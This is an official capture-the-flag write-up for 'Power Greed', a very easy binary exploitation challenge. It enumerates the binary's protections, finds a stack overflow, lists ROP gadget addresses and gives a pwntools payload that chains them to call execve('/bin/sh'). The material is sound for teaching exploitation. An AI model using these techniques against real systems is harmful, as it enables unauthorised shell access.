

        <font size="6">Power Greed</font>

​	5<sup>th</sup> Feb 2025

​	Prepared By: w3th4nds

​	Challenge Author(s): w3th4nds

​	Difficulty: <font color=green>Very Easy</font>

​	Classification: Official

 


# Synopsis

Power Greed is a very easy difficulty challenge that features creating a rop-chain through the gadgets of a statically linked binary to call `execve("/bin/sh", 0, 0)`.

# Description

Volnaya's power grid is the backbone of their might, harnessing energy and resources to create an unstoppable force with limitless power. Do you have what it takes to breach their defenses and bring the system down?

## Skills Required

- Basic Debugging

## Skills Learned

- Create a rop-chain of gadgets in a statically linked binary.

# Enumeration

First of all, we start with a `checksec`:  

```console
pwndbg> checksec
Arch:       amd64
RELRO:      Partial RELRO
Stack:      Canary found
NX:         NX enabled
PIE:        No PIE (0x400000)
SHSTK:      Enabled
IBT:        Enabled
Stripped:   No
```

We also run a `file` command:

```c
❯ file power_greed
power_greed: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, BuildID[sha1]=0b1f10b9e9720538e9c4a290c03cb9fe87a03401, for GNU/Linux 3.2.0, not stripped
```

We see that it's a `statically linked` binary. That makes us wonder if the "Canary" protection is indeed real. Also, it leaves out the possibility of `ret2libc` attacks.

### Protections 🛡️

As we can see:

| Protection | Enabled  | Usage   |
| :---:      | :---:    | :---:   |
| **Canary** | ✅      | Prevents **Buffer Overflows**  |
| **NX**     | ✅       | Disables **code execution** on stack |
| **PIE**    | ❌       | Randomizes the **base address** of the binary |
| **RelRO**  | **Partial** | Makes some binary sections **read-only** |

The program's interface 




Fuzzing around, we see that there is indeed a `Buffer Overflow`, and `Canary` seems to be missing.

### Understanding the ROP chain

We can easily find the offset at `0x38` bytes, but after that, we need to do something useful with the overflow. The binary is `statically linked`, meaning we can't leak an address and perform a `ret2libc` attack, thus leaving us wit the option of crafting a minimal rop-chain to call `execve("/bin/sh", 0, 0);`. To call a system function we need some things:

```c
rax |  Function  |         rdi          |           rsi            |           rdx
59  | sys_execve | const char *filename | const char *const argv[] | const char *const envp[]
```

We need to set these registers in order to call the function. Searching for useful gadgets, we can find these:

```c
pwndbg> rop --grep "pop rax ; ret"
0x000000000042adab : pop rax ; ret
    
pwndbg> rop --grep "pop rdi ; pop rbp ; ret"
0x0000000000402bd8 : pop rdi ; pop rbp ; ret

pwndbg> rop --grep "pop rsi ; pop rbp ; ret"
0x000000000040c002 : pop rsi ; pop rbp ; ret

pwndbg> rop --grep "pop rdx ; xor eax, eax"
0x000000000046f4dc : pop rdx ; xor eax, eax ; pop rbx ; pop r12 ; pop r13 ; pop rbp ; ret

pwndbg> rop --grep "syscall"
0x000000000040141a : syscall 
    
pwndbg> find 0x480000, 0x490000, "/bin/sh"
0x481778
1 pattern found.
pwndbg> x/s 0x481778
0x481778:       "/bin/sh"
```

Luckily, all gadgets are present in the binary. The final payload should look like this:

```python
payload = flat({ 
  0x38: p64(pop_rdi_pop_rbp_ret) + p64(bin_sh) + p64(0) + 
        p64(pop_rsi_pop_rbp_ret) + p64(0)*2 +
        p64(pop_rdx_xor_eax_pop_rbx_pop_r12_pop_r13_pop_rbp_ret) + p64(0)*5 +
        p64(pop_rax_ret) + p64(0x3b) +
        p64(syscall)
}) 
```
